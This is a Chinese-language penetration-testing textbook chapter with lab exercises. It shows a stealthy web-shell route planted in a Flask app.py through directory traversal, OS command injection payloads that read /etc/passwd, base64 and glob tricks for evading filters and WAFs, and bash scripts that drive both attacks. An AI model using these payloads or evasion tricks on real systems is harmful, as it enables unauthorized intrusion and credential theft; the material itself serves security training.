

图 6-10：Burp Suite Target 标签中显示的 p-web-01 上的 /static 目录

> 注意

*如果你在* /static *目录下看不到图片，点击* ***Filter*** *栏位，然后点击* ***Show All***。

在 Burp Suite 的 Repeater 中，我们将在 *python-webshell-check.py* 文件的文件名中加入一个相对路径，指向 */static* 目录。将其重命名为 *../static/python-webshell-check.py*，然后发送请求到服务器。根据响应，文件应该已经成功上传。浏览到 */static/python-webshell-check.py* URL 来验证这一点。

### 上传恶意载荷

现在我们知道可以利用目录遍历漏洞了，让我们来准备一个恶意的 *app.py* 载荷。我们将使用 @app.route() 函数在 *p-web-01* 中加入一个新的 Web Shell 端点。从本书的 GitHub 仓库中下载恶意版本的 *app.py* 文件。

当你打开这个文件时，你会看到它几乎是原始 *app.py* 文件的直接复制。然而，我们在文件的底部添加了另一个路由：

app.py

```
`--snip--`
❶ @app.route('/webshell/<command>')
def webshell(command):
    result = subprocess.check_output(command, shell=True)
    return result.decode('utf-8') 
```

❶ 这一行附加了一个新的 */webshell/<command>* URL，这个 URL 执行 webshell() 函数。该函数接受一个命令作为参数。文件的其余部分与 *python-webshell-check.py* 文件非常相似。

让我们使用 Burp Suite 将这个 web shell 上传到 *p-web-01*。首先，通过将请求中的文件名重命名为 *../app.py*，利用目录遍历漏洞。这样做应该允许我们覆盖服务器上原来的 *app.py* 文件。

下一步是将请求的 Content-Type 头部更改，以欺骗服务器认为我们正在上传一张图片。将头部修改为包含 image/jpeg 内容类型。然后将恶意文件的内容粘贴到请求的主体中。在点击 **发送** 之前，确保你的请求看起来像 图 6-11 中的那样。（请记住，这张截图没有显示请求主体中完整的文件内容。）



图 6-11：上传包含 web shell 路由的恶意 app.py 文件

如果请求成功，你应该会看到 “文件上传成功！” 的信息。

请注意，利用这个漏洞保留了 *app.py* 文件的所有原始功能。这个隐蔽的 web shell 利用帮助我们避免被检测到，因为我们保持了站点的核心行为不变，并且没有创建任何新文件。审查 */uploads* 目录的分析师不会找到 web shell，因为我们将 shell 添加到 Web 应用程序的源代码中。然而，像 *文件完整性监控 (FIM)* 这样的安全系统可能会捕捉到文件哈希已被更改。

在实际场景中，尝试覆盖应用程序时要非常小心。这可能不会在第一次尝试时就成功，如果修改后的版本存在代码错误，可能会破坏应用程序。尝试危险的渗透测试技术时，务必寻求授权。

## 执行 Web Shell 命令

经过三次漏洞链式利用后，我们现在可以在 *p-web-01* 上执行命令。为此，导航到你刚刚创建的端点，并将一个 bash 命令附加到 URL 上。命令的输出应在浏览器响应中返回。

例如，要找出我们以哪个用户身份操作，可以运行 id 命令，访问 *http://172.16.10.10:8081/webshell/id*。这应该会输出以下内容：

```
uid=0(root) gid(root) groups=0(root)
```

访问 *http://172.16.10.10:8081/webshell/pwd* 查看我们在系统中的位置：

```
/app
```

最后，访问 *http://172.16.10.10:8081/webshell/uname%20-a* 来识别我们刚刚攻陷的操作系统：

```
Linux p-web-01.acme-hyper-branding.com 6.1.x-kali5-amd64 #1 SMP
PREEMPT_DYNAMIC Debian 6.1.xx-1kali1 x86_64 x86_64 x86_64 GNU/Linux 
```

请注意，当我们将 uname -a bash 命令发送到 web shell 时，我们必须使用 %20 表示法对空格字符进行 URL 编码。表 6-1 显示了一些常用的 URL 编码字符，你可以将它们插入到 bash web shell 中。

表 6-1：Bash Web Shell 常用的 URL 编码字符

| 字符 | URL 编码 |
| --- | --- |
| 空格 () | %20 |
| 斜杠 (/) | %2F |
| 问号 (?) | %3F |
| 和号 (&) | %26 |
| 等号 (=) | %3D |
| 冒号 (:) | %3A |
| 分号 (;) | %3B |
| 哈希 (#) | %23 |
| 加号 (+) | %2B |
| 逗号 (,) | %2C |

现在我们已经在服务器上获得了初步控制，让我们开发一个独特的 bash 脚本，以便更好地与其交互，这样我们就不必使用浏览器了。

练习 8：构建一个 Web Shell 接口

在本练习中，你将开发一个 bash 脚本，用于自动向你上传到 *p-web-01*（172.16.10.10）的 Web Shell 发送命令，并解析你收到的输出。该脚本应通过发送基于本地 bash 输入提示符输入的 bash 命令生成的 HTTP 请求与 Web Shell 进行交互。

由于命令可能包含特殊字符，因此你需要确保正确编码所有输入。你还需要返回干净的输出，只包含相关的命令执行响应。清单 6-1 显示了一个这样的 Web Shell 脚本示例。

webshell.sh

```
#!/bin/bash

❶ read -p 'Host: ' host
read -p 'Port: ' port

while true; do
  read -p '$ ' raw_command
❷ command=$(printf %s "${raw_command}" | jq -sRr @uri)
❸ response=$(curl -s -w "%{http_code}" \
  -o /dev/null "http://${host}:${port}/webshell/${command}")
  http_code=$(tail -n1 <<< "$response")

  # Check if the HTTP status code is a valid integer.
  if [["${http_code}" =~ ^[0-9]+$]]; then
  ❹ if ["${http_code}" -eq 200]; then
    ❺ curl "http://${host}:${port}/webshell/${command}"
    else
      echo "Error: HTTP status code ${http_code}"
    fi
  else
    echo "Error: Invalid HTTP status code received"
  fi
done 
```

清单 6-1：一个 Web Shell 接口

我们通过收集远程目标的主机地址和端口来开始脚本，以便我们可以连接到目标 ❶。在一个 while 循环内，脚本要求用户输入要执行的命令 ❷。我们通过使用 jq 及其内置的 @uri 函数对命令字符串进行编码，该函数将输入字符串转换为 URI 编码字符串。

接下来，我们向目标发送一个特别构造的 curl 请求 ❸。-s 选项抑制任何与 bash 命令无关的不必要的 curl 输出。接下来，-w 参数指定 curl 的自定义输出格式。在这种情况下，"%{http_code}" 是一个占位符，将被请求的 HTTP 响应代码替换。这使我们能够单独获取状态码。此外，我们可以看到，这个 curl 请求使用了 -o 输出参数，并将其指向 */dev/null*，意味着我们丢弃响应体。

在 ❹，我们检查 HTTP 状态码是否为 200。然后我们发送第二个 curl 请求来获取 ❺ 处的输出。

你能进一步改进这个脚本吗？尝试实现以下一些功能：

**使用单个 HTTP 请求**：移除每个命令都需要发送两个 curl 请求的需求。

**改变目录持久性**：使用 cd 在文件系统中移动时，让你的脚本跟踪当前工作目录。

**创建历史审计日志**：当命令被发送到 Web Shell 时，将它们存储在一个日志中，记录哪些命令在何时执行。

**使用快速访问别名**：不再要求用户手动输入目标主机和端口，而是将这些参数作为命令行参数接收，并将包含这些参数的完整脚本路径存储为别名。

## Web Shell 的局限性

尽管 Web Shell 很有用，但它们有几个局限性。这里我们讨论一些常见的缺点。

### 缺乏持久性

Web Shell 通常是临时的，仅在被攻陷的 Web 服务器仍然可访问时存在。系统管理员可能会定期监控并清理上传的文件，从而降低它们的持久性和有效性。此外，如果服务器被关闭、打补丁或重新配置，Web Shell 可能会变得无效，从而降低你保持访问的能力。

### 实时响应的缺乏

来自命令的实时响应，如 ping，将无法工作，除非你限制发送的 ping 命令的数量，否则你的 Web Shell 可能会挂起，因为像 CTRL-C 这样的热键无法使用来退出命令。

### 功能有限

Web Shell 通常提供有限的反馈或错误信息，这使得故障排除或理解失败的根本原因变得具有挑战性。它们仅提供通过本地系统管理工具可用功能的一个子集，并且可能缺少一些高级的 bash 功能，例如键盘快捷键。

我们已经考虑了一种获取目标服务器初始访问的方法。让我们通过考虑另一种方法来结束本章：操作系统命令注入。

## 操作系统命令注入

*操作系统命令注入*是一种安全漏洞，当应用程序允许用户通过输入未授权的操作系统命令并将其传递给应用程序时，就会发生此漏洞。作为攻击者，我们可以利用目标系统缺乏适当的输入清理来注入这些恶意命令，从而获得对系统的初步控制。

与 Web Shell 不同，操作系统命令注入攻击不需要我们将恶意文件上传到服务器。相反，我们必须识别目标应用程序中直接依赖用户输入来构造操作系统命令的地方。然后，我们必须通过注入特制字符或序列来操纵用户提供的输入，突破预期的输入上下文并运行我们自己的命令。

例如，以下是一个 Python Web 应用程序的代码片段，允许用户提交文件名以进行处理：

```
import os

def process_file(filename):
    **command = "ls -l " + filename**
    output = os.popen(command).read()
    return output 
```

如你所见，应用程序的 process_file() 函数接受文件名参数，并将其传递给 ls -l 操作系统命令，而没有首先检查输入中的特殊字符或其他恶意内容。

如果文件名的值来自另一个接受不可信用户输入的函数，攻击者就可以利用此漏洞；在这种情况下，他们可以将额外的命令注入文件名参数。例如，如果攻击者提交了一个恶意的文件名输入，比如 file.txt; id，应用程序将构造以下命令：

```
ls -l file.txt; id
```

该输入首先通过使用文件名 file.txt 执行预定的 ls -l 命令，然后运行注入的 id 命令。

注意，输入依赖于分号 bash 控制操作符（;）来转义预期的输入上下文。在第一章和第二章中，您学到了一些这些操作符，它们对 bash 解释器具有特殊意义。表 6-2 展示了如何使用这些操作符来测试可能存在的操作系统命令注入漏洞。

表 6-2：常见的操作系统命令注入技术

| 操作符 | 描述 | 示例用法 |
| --- | --- | --- |
| 分号 (;) | 在单行中执行多个命令 | 文件名=abc.txt; id |
| 管道符（&#124;）或双管道符（&#124;&#124;） | 连接命令并重定向命令输出，同时提供 OR 条件逻辑 | 文件名=abd.txt &#124; cat /etc/passwd |
| &符号或双&符号 (&) | 连接命令或在后台运行命令，同时提供 AND 条件逻辑 | 文件名=abc.txt & ls -l |
| 命令替换 (`, $()) | 替换命令 | 文件名=`cat /etc/passwd` |
| 重定向操作符 (>, >>, <) | 重定向输入/输出 | 文件名=abc; cat /etc/passwd > pass.txt |
| 双引号和单引号 (", ') | 封装命令参数 | 文件名="abc.txt; id" |

让我们在实验室中利用操作系统命令注入漏洞。我们不使用特殊的黑客工具来发现漏洞，而是依赖我们对 bash 语法的理解。

我们将瞄准位于 *http://172.16.10.12* 的 *p-web-02* web 应用程序。在 第五章 扫描此应用程序时，我们注意到两个有趣的端点：*donate.php* 文件和 *amount_to_donate.txt* 文件。

浏览至 *http://172.16.10.12/donate.php* 查看 *donate.php* 网页。如图 6-12 所示，页面似乎包含一个简单的表单，其中有一个文本输入字段和一个提交按钮。



图 6-12：p-web-02 应用程序上的捐赠页面

通过手动测试，我们将更好地了解此应用程序的功能。尝试在文本输入字段中输入 **1**，然后提交它（图 6-13）。


图 6-13：成功的捐赠响应

正如您所见，输入内容显示在页面上显示的响应消息中。请注意页面的 URL 如何更改以包含等于 1 的金额参数。

现在，浏览至 *http://172.16.10.12/amount_to_donate.txt* 查看 *amount_to_donate.txt* 文件。您会看到我们之前从 *donate.php* 表单输入的值 1 已保存到服务器上的此 *.txt* 文件中。这表明基于来自 web 应用程序的输入执行了某种类型的文件系统处理，并且我们发现的表单可能是注入操作系统命令的良好入口点。

让我们尝试在 *donate.php* 页面执行操作系统命令注入。提交分号控制操作符（;）以及 bash 命令 id。在表单中提交后，遗憾的是，似乎有一个验证脚本捕获了分号字符。你应该会在网页上看到消息 *Character ; is not allowed*。

不用担心；我们可以尝试另一种方法。让我们注入一个管道符号（|）而不是分号。如 图 6-14 中所示，输入被接受。



图 6-14：成功的操作系统命令注入响应

如果你检查 *amounts_to_donate.txt* 文件，你应该能看到证据，证明命令已经成功注入该文件中，因为我们能够识别出运行 id 命令的输出。在 图 6-15 中，你可以看到 *www-data* 用户正在运行 *p-web-02*（172.16.10.12）Web 应用程序。



图 6-15：注入命令的输出

使用浏览器的检查工具或 Burp Suite 代理，我们可以看到操作系统命令注入发生，通过发送一个 GET 请求到 */donate.php?amount=*。

练习 9：构建命令注入接口

和你在练习 8 中构建的 Web Shell 接口一样，开发一个 bash 脚本，通过利用 *p-web-02* 的操作系统命令注入漏洞，使得发送命令变得更加容易。

这个接口脚本应该与 *donate.php* 端点交互，用于发送命令，同时与 *amount_to_donate.txt* 端点交互，用于解析和显示命令的响应。该脚本还应该只返回当前命令的响应，而不是 *amount_to_donate.txt* 文件中所有先前命令结果的完整转储。

列表 6-2 显示了一个示例解决方案。

os-command -injection.sh

```
#!/bin/bash

read -rp 'Host: ' host
read -rp 'Port: ' port

while true; do
  read -rp '$ ' raw_command
  command=$(printf %s "${raw_command}" | jq -sRr @uri)

  # Store the previous list of command outputs.
❶ prev_resp=$(curl -s "http://${host}:${port}/amount_to_donate.txt")

  # Execute the OS Command Injection vulnerability.
❷ curl -s -o /dev/null "http://${host}:${port}/donate.php?amount=1|${command}"

  # Store the new list of command outputs.
❸ new_resp=$(curl -s "http://${host}:${port}/amount_to_donate.txt")

  # Extract only the difference between the two command outputs.
❹ delta=$(diff --new-line-format="%L" \
                       --unchanged-line-format="" \
                       <(echo "${prev_resp}") <(echo "${new_resp}"))

 # Output the command result.
  echo "${delta}"

done 
```

列表 6-2：操作系统命令注入接口

这段代码与 Web Shell 接口脚本的开始非常相似：通过收集目标连接详情，并开始一个 while 循环，提示用户输入要编码的命令。

在发送操作系统命令注入请求之前，脚本首先需要对 *amount_to_donate.txt* 文件的内容进行快照，并将其保存到名为 prev_resp 的变量中 ❶。稍后我们会讨论这样做的原因。

在下一个 curl 请求中，我们将 amount 参数注入编码的命令，并在其前面添加 1| 值 ❷。发送 curl 请求后，我们会发送另一个快照请求，捕获 new_resp 变量中的新 *amount_to_donate.txt* 文件内容 ❸。

最后，为了显示命令的正确输出，我们运行一个 diff 操作，提取 prev_resp 和 new_resp 变量之间的差异 ❹。diff 输出会存储在 delta 变量中，展示了注入后新创建的所有 *amount_to_donate.txt* 文件行。

尝试扩展这个脚本，使它更有用。例如，你可以增加支持查看所有已执行命令及其响应的功能，通过将它们写入文件，然后在脚本运行时，当使用特殊命令时再显示它们。

## 绕过命令注入限制

正如我们观察到的那样，开发人员通常会实施数据清理检查，以防止针对其 Web 应用的操作系统命令注入攻击。我们运气不错，因为目标中没有阻止管道符（|）字符。即便如此，了解一些绕过命令注入控制的方法仍然很重要。

### 混淆和编码

当我们在本章早些时候向 Webshell 发送命令时，URL 编码要求给我们带来了需要克服的挑战。然而，编码和混淆实际上可能帮助我们在某些情况下避开检测。像 URL 编码、base64 编码和字符编码这样的技术，可以隐藏有效负载，避开安全控制、检查和过滤。

例如，我们可以将整个命令（如 ls -l）进行 base64 编码，并将其隐藏在输入中。通过将以下有效负载发送到*/donate.php*，来测试此编码：

```
| **$(echo 'bHMgLWw=' | base64 -d)**
```

你应该会收到 Web 应用当前工作目录的完整文件系统列表。

该技术旨在绕过简单的模式匹配或过滤机制，这些机制通常用于检测。像正则表达式这样的基本技术将很难识别编码后的 bHMgLWw=字符串中的 bash 命令。

### 模式匹配

*模式匹配*是使用通配符模式部分或完全匹配文件名或文件中其他内容的过程。如果一个字符串包含如?、*、[、]或!等字符，它就被认为是一个通配符模式。

模式匹配很有趣，因为它允许我们指定可以扩展为特定文件名或目录的模式，而不需要实际提供精确的名称，这样可能绕过访问限制。考虑 Linux 上的*/etc/passwd*文件。为了查看它，我们可以使用 ls 命令，后面跟上特定的路径和文件名：

```
$ **ls -l /etc/passwd**

-rw-r--r-- 1 root root 3262 Jul 22 23:15 /etc/passwd 
```

但我们也可以运行这样的命令，通过使用?通配符字符来列出该文件：

```
$ **ls -l /etc/p?sswd**

-rw-r--r-- 1 root root 3262 Jul 22 23:15 /etc/passwd 
```

Bash 将尝试将此模式匹配到*/etc*目录下的文件。由于*passwd*是唯一一个名称模式相似的文件，*?*字符将扩展为*a*，这与*passwd*匹配。

我们可以使用相同的方法访问潜在受限的目录：

```
$ **ls -l /e??/passwd**

-rw-r--r-- 1 root root 3262 Jul 22 23:15 /etc/passwd 
```

因为在文件系统的根目录（*/*）下，没有其他目录名是三个字符长并且以*e*开头，所以该模式将匹配*/etc*目录。

模式匹配可以变得更极端。如何填充所有字符为问号，除了最后一个字符？如果目录中没有相似的文件名，这也会匹配*/etc/passwd*：

```
$ **ls -l /???/?????d**

-rw-r--r-- 1 root root 3262 Jul 22 23:15 /etc/passwd 
```

我们可以将通配符与大括号扩展（brace expansion）结合起来，以匹配 */etc* 下的多个模式。在以下示例中，bash 将搜索以 *p* 开头、以 *d* 结尾的文件，以及以 *g* 开头、以 *p* 结尾的文件。这应该会匹配如 */etc/passwd* 和 */etc/group* 这样的文件：

```
$ **ls /??c/{p????d,g???p}**

-rw-r--r-- 1 root root 3262 Jul 22 23:15 /etc/passwd 
```

熟悉像通配符（globbing）这样的特性是有帮助的，因为你可能会遇到一些应用程序（甚至是 web 应用防火墙），它们限制了输入中某些字符的使用，而没有考虑到通配符，这使得我们能够绕过过滤器和验证。

例如，web 应用防火墙通常会阻止对包含如 *http://example.com?file=/etc/passwd* 这样的参数的 URL 的请求。根据应用程序如何使用文件名，通配符可能有助于绕过防火墙的检测逻辑。

## 总结

正如你在前面的章节中看到的，bash shell 的强大功能是不可否认的，这也使得打开一个 shell 成为一个令人兴奋的前景。这些 shell 为进一步的利用和目标系统的横向移动提供了可能性。

在本章中，我们通过部署 web shell 和注入操作系统命令，获得了对目标系统的低权限立足点。我们还利用 bash 构建了这些漏洞的可访问接口，并探讨了通过通配符等策略对 bash 命令进行混淆的方法。在下一章中，我们将探索一些跨不同环境建立远程 shell 的技术。
